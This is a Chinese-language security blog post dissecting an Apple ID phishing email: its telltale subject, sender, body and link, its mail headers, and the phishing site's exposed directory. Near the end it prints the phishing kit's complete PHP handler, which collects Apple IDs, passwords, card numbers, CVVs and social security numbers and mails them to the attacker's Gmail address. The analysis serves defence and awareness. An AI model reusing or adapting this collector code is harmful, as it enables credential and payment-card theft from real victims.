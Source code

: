 ```yaml
---

title: "Apple ID 釣魚郵件案例"
description: "又收到釣魚郵件了！好的釣魚郵件可以輕易騙取別人的帳號密碼，不好的釣魚郵件甚至可以讓我們破解攻擊者的手法。這次我們來看看一個 Apple ID 的釣魚郵件。"
category: "案例剖析"
tags: [Mail, Phishing]
author: "allenown"
keywords: "Mail, Phishing, 釣魚, 社交工程, Apple"

og_image: ""
---
```



今天又有不怕死的人寄來釣魚信了，這次是騙取 Apple ID。讓我們來看看這封信，其中內容有非常多破綻，也已經被 Gmail 直接定為 Spam 了，非常可憐。除了信件之外，釣魚的網頁本身也很值得我們借鏡，讓我們來看看這次的釣魚郵件案例。

[![Apple ID 釣魚信](https://lh5.googleusercontent.com/-r8BU7qq8xt0/U7UTt-3wxxI/AAAAAAAAAh0/y00wjTdq4IE/w678-h440-no/2014-07-03-apple-id-phishing-scam-01.png "Apple ID 釣魚信")](https://lh5.googleusercontent.com/-r8BU7qq8xt0/U7UTt-3wxxI/AAAAAAAAAh0/y00wjTdq4IE/s2560/2014-07-03-apple-id-phishing-scam-01.png)

READMORE

### 如何判別釣魚信呢？

先來談談要如何判別釣魚信呢。我們可以從四個要素來看：

1. 標題
2. 寄件者
3. 內文
4. 連結

#### 標題

首先，這封信的標題非常假，一般來說公司不會使用這類標題，這種判斷比較需要經驗。釣魚信件會使用非常聳動、吸引你去做動作的標題。例如常見的「你的帳號遭到停用」、「更換帳號資訊通知」等。點下連結就會帶你去假造的頁面騙你輸入密碼，千萬別傻傻當真。

#### 寄件者

寄件者通常是釣魚信一定會加強假造的部分，利用官方存在的信箱或是他人的信箱寄信，加強你的信任。不過需要特別注意的是：

**寄件者的欄位是可以假造、隨意填寫的，千萬不要直接信任。**

以這封信為例，寄件者「service@apple.com」是不存在的。當然這個欄位可以假造，但連假造都錯，實在是非常不用心。

#### 內文

信件的內文就是精華了，要怎麼做出一封很像官方的信件，又要誘使人去點選，實在是一門藝術。精心設計的釣魚信、社交工程、APT 郵件，通常都會針對受害者客製化，調查身邊的社交圈、常談的話題、常用的服務、會點擊的郵件，來製造一個一定會中獎的信件。

當然很多時候攻擊者調查不足，還是會出現蛛絲馬跡的。例如來自中國的惡意郵件，常會出現「**尊敬的用戶您好**」這種在台灣人眼中看了很彆扭的詞彙。如果出現了不常見的用詞，就非常有可能是一個假造的惡意郵件，千萬不要傻傻的點選連結或附件。

再回頭來以這封信為例，最大的破綻除了非制式的內文之外，就屬署名了。明明是假造「Apple Customer Support」的來信，最下面卻簽署「Microsoft Privacy and cookies Developers」，有沒有搞錯？可以再用點心嗎？

#### 連結

最後的重點就是信件中的釣魚連結了，通常這個連結會帶你前往一個長得跟官方網站一模一樣的登入頁面，騙你輸入帳號密碼登入來竊取。在點選超連結之前，一定要先看一下這個連結前往的位置是不是官方的位置，例如是 Apple 的信件通常就會是前往 Apple.com 自己的網域名稱。當然更要特別注意的是假造的網域名稱，例如使用「App1e.com」來偽裝成「Apple.com」，也是非常常見的。

這封信中使用了最不用心的用法，就是直接拿釣魚網站的 URL 來當連結，一來長得跟官方網域根本不像，二來落落長的連結，到底是想要騙誰點選呢？

### 信件標頭藏有攻擊者的蛛絲馬跡

收到惡意郵件、釣魚郵件，一定要好好看信件的標頭檔（Header）。裡面通常可以看到攻擊者發信的來源，例如是自己架設的發信伺服器或者是使用肉雞來發信。

[![Apple ID 釣魚信 Header](https://lh4.googleusercontent.com/-DSvLz6-NiA4/U7UTt5j6t3I/AAAAAAAAAiE/I0iX66vNa0E/w1044-h582-no/2014-07-03-apple-id-phishing-scam-02.png "Apple ID 釣魚信 Header")](https://lh4.googleusercontent.com/-DSvLz6-NiA4/U7UTt5j6t3I/AAAAAAAAAiE/I0iX66vNa0E/s2560/2014-07-03-apple-id-phishing-scam-02.png)

信件標頭最重要的就是「Received」這個部分，要由下往上閱讀。從這邊我們可以看到信件的流向，從攻擊發起者到發信伺服器，中間經過其他伺服器的轉送，最後到收到釣魚信件的郵件伺服器。因此從最下面的 Received 位置，我們可以知道攻擊者是從「selecttr@cloud.httpdns.co」來寄送信件的，因此 cloud.httpdns.co 很有可能就是攻擊者的伺服器，或者是被駭來發信的伺服器。

如果覺得信件的標頭太長難以閱讀，可以利用 Google 提供的工具「[Google Apps Toolbox - Messageheader](https://toolbox.googleapps.com/apps/messageheader/)」。只要把信件的標頭貼上，他就會自動分析信件的流向，如下圖。

[![檢查信件 header](https://lh4.googleusercontent.com/-5Kz28O5Y_QQ/U7UdDqQzuRI/AAAAAAAAAis/nLqhaKijwIc/w962-h403-no/2014-07-03-apple-id-phishing-scam-08.png "檢查信件 header")](https://lh4.googleusercontent.com/-5Kz28O5Y_QQ/U7UdDqQzuRI/AAAAAAAAAis/nLqhaKijwIc/s2560/2014-07-03-apple-id-phishing-scam-08.png)

### 釣魚網頁，也請你注重安全啊。

接著我們來看一下釣魚頁面。通常「正常」的釣魚頁面都會做得跟官方一模一樣，因為通常攻擊者都會直接把官方網站上面的 HTML 直接下載下來修改。如果有做得不像的，就真的是太不用心的攻擊者。

我們可以看到這個釣魚頁面做得非常像，上面要你輸入帳號、密碼、姓名、生日、信用卡號等資訊，非常惡劣。唯有網址實在是太假，希望沒有人眼拙真的以為這是 Apple 的網站。

[![Apple ID 釣魚網頁](https://lh3.googleusercontent.com/-roay8gwb1xg/U7UTuUnkDxI/AAAAAAAAAic/Za7ARXd50gE/w897-h678-no/2014-07-03-apple-id-phishing-scam-04.png "Apple ID 釣魚網頁")](https://lh3.googleusercontent.com/-roay8gwb1xg/U7UTuUnkDxI/AAAAAAAAAic/Za7ARXd50gE/s2560/2014-07-03-apple-id-phishing-scam-04.png)

秉持的資安研究員的好習慣，我們把網址子目錄去掉，看看網站的根目錄長什麼樣子，結果讓人跌破眼鏡。

[![釣魚網頁開放目錄瀏覽](https://lh6.googleusercontent.com/-9othIZ0WnKQ/U7UTt_UVaSI/AAAAAAAAAh4/Wufvr0iIgHI/w897-h678-no/2014-07-03-apple-id-phishing-scam-03.png "釣魚網頁開放目錄瀏覽")](https://lh6.googleusercontent.com/-9othIZ0WnKQ/U7UTt_UVaSI/AAAAAAAAAh4/Wufvr0iIgHI/s2560/2014-07-03-apple-id-phishing-scam-03.png)

**釣魚網站也請你注重安全啊！**這個網站大剌剌的開著目錄索引，讓我們可以看到網站上的各個目錄、檔案。除了 Apple 的釣魚網頁之外，甚至有釣魚網頁的原始碼「connect-info.zip」，更有著其他釣魚網頁在同個站上。

[![站上其他釣魚頁面](https://lh5.googleusercontent.com/-F1tIkSqFbsM/U7UTu8R0Y1I/AAAAAAAAAiQ/5pxB467FPlM/w897-h678-no/2014-07-03-apple-id-phishing-scam-05.png "站上其他釣魚頁面")](https://lh5.googleusercontent.com/-F1tIkSqFbsM/U7UTu8R0Y1I/AAAAAAAAAiQ/5pxB467FPlM/s2560/2014-07-03-apple-id-phishing-scam-05.png)

既然可以瀏覽，那我們來看看釣魚網頁的原始碼寫得怎樣。抓下來解開之後會看到完整的釣魚網頁，以及接收受騙人資料的主程式「Snd.php」。

[![下載釣魚網頁原始碼](https://lh6.googleusercontent.com/-0v_MrZOZf9A/U7UTvO9EgqI/AAAAAAAAAiM/qqW2mrwy500/w706-h574-no/2014-07-03-apple-id-phishing-scam-06.png "下載釣魚網頁原始碼")](https://lh6.googleusercontent.com/-0v_MrZOZf9A/U7UTvO9EgqI/AAAAAAAAAiM/qqW2mrwy500/s2560/2014-07-03-apple-id-phishing-scam-06.png)

釣魚網頁的程式寫得非常簡單，僅把網頁上接收到的被害人資料、IP，寄送到他的信箱「 justforhacke@gmail.com 」，寄送完畢後會自動導向到官方的頁面偽裝。

[![釣魚網頁原始碼](https://lh4.googleusercontent.com/-1-GdwVT5nkQ/U7UTvu91imI/AAAAAAAAAiY/VCEV9Eo2oMo/w797-h607-no/2014-07-03-apple-id-phishing-scam-07.png "釣魚網頁原始碼")](https://lh4.googleusercontent.com/-1-GdwVT5nkQ/U7UTvu91imI/AAAAAAAAAiY/VCEV9Eo2oMo/s2560/2014-07-03-apple-id-phishing-scam-07.png)

如果釣魚網頁寫得不好，甚至我們有機會可以攻擊他釣魚網頁上的漏洞，直接取得主機的權限，解救世人。從原始碼我們一目了然釣魚網頁的行為、寫法，也可以尋找有無攻擊的機會。

#### 釣魚網頁原始碼備份

{% highlight php %}
<?php
$ip = getenv("REMOTE_ADDR");
$hostname = gethostbyaddr($ip);
$bilsmg .= "------------+| AppLe VbV |+------------\n";
$bilsmg .= "Apple ID                    : ".$_POST['donnee000']."\n";
$bilsmg .= "Password                    : ".$_POST['donnee001']."\n";
$bilsmg .= "Full Name                   : ".$_POST['donnee01']."\n";
$bilsmg .= "Date of Birth               : ".$_POST['donnee02']."/";
$bilsmg .= "".$_POST['donnee3']."/";
$bilsmg .= "".$_POST['donnee4']."\n";
$bilsmg .= "Number Of Credit Card       : ".$_POST['donnee5']."\n";
$bilsmg .= "CVC (CVV)                   : ".$_POST['donnee6']."\n";
$bilsmg .= "Expiration Date             : ".$_POST['donnee7']."/";
$bilsmg .= "".$_POST['donnee8']."\n";
$bilsmg .= "Social Security Number      : ".$_POST['donnee9']."\n";
$bilsmg .= "------------+| APpLe VBV |+------------\n";
$bilsmg .= "Fr0m $ip            \n";


$bilsnd = "justforhacke@gmail.com";
$bilsub = "Apple Result | Fr0m $ip";
$bilhead = "From: Apple Results <justforhacke@gmail.com>";
$bilhead .= $_POST['eMailAdd']."\n";
$bilhead .= "MIME-Version: 1.0\n";
$arr=array($bilsnd, $IP);
foreach ($arr as $bilsnd)
mail($bilsnd,$bilsub,$bilsmg,$bilhead);

header('Location:https://itunesconnect.apple.com/WebObjects/iTunesConnect.woa/');

?>
{% endhighlight %}

### 釣魚郵件不死，別再把自己當成肥羊了！

釣魚攻擊最早從 1995 年就開始盛行，一直到快 20 年後的今天，都還是一個非常簡單又有效率的攻擊手法。收到郵件千萬別傻傻的輸入自己的個資、帳號密碼，仔細看一下攻擊者的破綻，別讓他得逞了。

如果有發現疑似釣魚網站，又無法確認，可以到 [PhishTank](http://www.phishtank.com/) 來查查看，找到釣魚網站也可以投稿一下幫助其他人！
